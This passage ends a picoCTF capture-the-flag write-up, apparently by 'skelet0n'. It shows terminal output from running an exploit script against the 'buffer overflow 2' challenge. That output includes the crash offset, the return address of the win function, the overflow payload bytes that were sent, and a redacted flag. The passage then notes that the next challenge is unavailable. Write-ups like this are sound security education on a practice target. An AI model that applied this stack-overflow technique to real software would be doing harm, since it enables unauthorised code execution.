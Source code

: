 ```bash
$ python exploit.py --host saturn.picoctf.net --port [PORT]
[*] '/home/skeleton/ctf/pico/binary_exploitation/buffer_overflow_2/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process '/home/skeleton/ctf/pico/binary_exploitation/buffer_overflow_2/vuln': pid 123274
[*] Process '/home/skeleton/ctf/pico/binary_exploitation/buffer_overflow_2/vuln' stopped with exit code -11 (SIGSEGV) (pid 123274)
[+] Parsing corefile...: Done
[*] '/home/skeleton/ctf/pico/binary_exploitation/buffer_overflow_2/core'
    Arch:      i386-32-little
    EIP:       0x62616164
    ESP:       0xffcdd4c0
    Exe:       '/home/skeleton/ctf/pico/binary_exploitation/buffer_overflow_2/vuln' (0x8048000)
    Fault:     0x62616164
[*] EIP: 1650549092
[*] win: 134517398
[*] main: 134517618
[+] Payload generated
[+] Opening connection to saturn.picoctf.net on port 56095: Done
[*] Switching to interactive mode
Please enter your string: 
\xf0\xfe\xcadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaab\x96\x92\x04r\x93\x04
picoCTF{argum3nt5_4_d4yZ_[REDACTED]}Please enter your string:
```
# Buffer Overflow 0x3
According to `picoCTF` this challenge is under maintenance. 
**Comming soon**
# The end
I really hope you enjoyed this writeup and learnt a thing or two about buffer overflows and how to exploit them. 
Please give a star to this repository if you liked it.  It only takes 1 **GET** request to do and you will motivate me to keep making these.
Now if you didn't, feel free to open a issue. 

skelet0n